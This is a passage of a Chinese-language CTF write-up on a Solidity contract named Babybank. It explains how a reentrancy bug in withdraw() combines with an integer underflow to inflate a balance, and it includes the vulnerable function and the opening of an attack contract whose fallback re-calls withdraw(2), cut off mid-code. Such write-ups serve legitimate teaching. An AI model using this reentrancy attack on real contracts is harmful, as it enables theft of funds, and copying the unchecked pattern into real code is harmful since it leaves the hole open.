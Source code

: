 ```javascript
    function withdraw(uint amount) public{
        require(amount==2);
        require(balance[msg.sender] >= amount);
        msg.sender.call.value(amount*100000000000000)();
        balance[msg.sender] -= amount;
    }
}
```

由于我们主要是要分析它可能会受到攻击的点，所以不用太关心上面样例合约的业务流程，大体可以看看它的功能块：

1. 构造函数，初始化该合约的owner。
2. 定义了一个modifier onlyowner，用于限定具体的操作只有owner才能访问。
3. 挑战1 profit()，用于匹配账户地址，只有地址末位是0xb1b1的，才能获得奖励和层级提升。
4. 挑战2 set_secret()和guess()：

- set_secret()只能被合约的owner调用，用于设置或修改密码；
- guess()则为该合约的访问账户调用，如果猜对了owner设置的密码，且该账户的层级是1，就会获得奖励1，并层级跃迁一级。

5. 挑战3 transfer()和withdraw()：

- transfer()在访问者账户里奖励数额够，且层级达到2的情况下，将2个奖励点，转给指定的其它账户；
- withdraw()从访问者账户抽取奖励点。

看完它的功能点，其实我们也可大致理解该样例合约的意义：访问合约的账户想要得到flag，但要确保其账户的奖励点要超过10000000000；但这些账户想要获得奖励点，就只能通过**3大挑战**：

1. 我们知道，以太坊账户地址的生成是基于Hash算法的，具有随机性，如何得到指定末位几位的地址？

- 通过网站https://vanity-eth.tk/，它可以帮助我们获得指定前缀或者后缀的以太地址账号。

2. 关键的漏洞就在第3大挑战的withdraw函数，它可能会触发以下两份行代码的执行：

```javascript
msg.sender.call.value(amount*100000000000000)();
balance[msg.sender] -= amount;
```

上一行可能导致重入攻击，下一行则可能导致整形下溢出。

首先我们看利用call调用引用的重入攻击：

1. 如果msg.sender本身就是一个合约的话，call调用在转账的时候会调用该合约的fallback函数。
2. 这时候如果构造一个恶意的合约，在它的fallback函数里面再次调用一次样例合约中的withdraw函数，这样就相当于调用了2次withdraw，经过了2次**balance[msg.sender] -= amount;**。
3. 当然，在其fallback函数里，可以继续调用该withdraw函数；也可以在某种情形下（比如账户中的奖励点数已经足够多了）中止调用。

再看整形下溢出攻击：

1. 转账的第一次可能2-2；
2. 第二次就是0-2，实现整形下溢出，变成很大的一个数字，这样就可以实现balance[msg.sender] >= 10000000000。

下面则利用重入漏洞进行攻击的一份经典攻击合约代码：

```javascript
pragma solidity ^0.4.24;

interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}
contract attack {
    BabybankInterface private bank = BabybankInterface(0x3E44E3d7Ecf4500179a132B8dD3FeC182Ed4a1F4);
    bool flag = false;
    function() external payable{
        require(flag==false);
        flag=true;
        bank.withdraw(2);
    }
```